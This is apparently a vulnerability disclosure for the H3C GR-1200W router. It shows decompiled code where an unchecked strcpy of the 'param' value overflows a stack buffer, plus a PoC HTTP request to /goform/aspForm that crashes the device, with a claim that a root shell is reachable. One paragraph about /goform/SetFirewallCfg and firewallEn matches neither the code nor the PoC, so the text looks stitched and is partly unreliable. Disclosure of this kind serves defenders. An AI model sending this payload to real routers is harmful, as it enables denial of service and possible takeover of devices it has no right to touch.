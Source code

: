 ### Affected product

```
H3C GR-1200W
```
In function sub_4ACC30,the content obtained by the program from the parameter "param" is passed to v2 .Then the v2 is directly copied into the v3 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code 
Execution with carefully crafted overflow data.

### Detail

```c
int __fastcall sub_4ACC30(int a1)
{
  const char *v2; // [sp+28h] [+28h]
  int v3[9]; // [sp+2Ch] [+2Ch] BYREF

  v3[0] = 0;
  v3[1] = 0;
  v3[2] = 0;
  v3[3] = 0;
  v3[4] = 0;
  v3[5] = 0;
  v3[6] = 0;
  v3[7] = 0;
  v2 = (const char *)sub_4E58C8(a1, "param", &unk_4FFD30);
  strcpy((char *)v3, v2);
  CFG_Set(0, 505155584, v3);
  return 0;
}
```
### POC

```python
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.11:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=aVersionSet&param=1;2;3;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,;

```

/goform/SetFirewallCfg，firewallEn  is controllable and will eventually be spliced into dest by sprintf. It is worth noting that the size is not checked, resulting in a stack overflow vulnerability



You can see the router crash, and finally we can write an exp to get a root shell
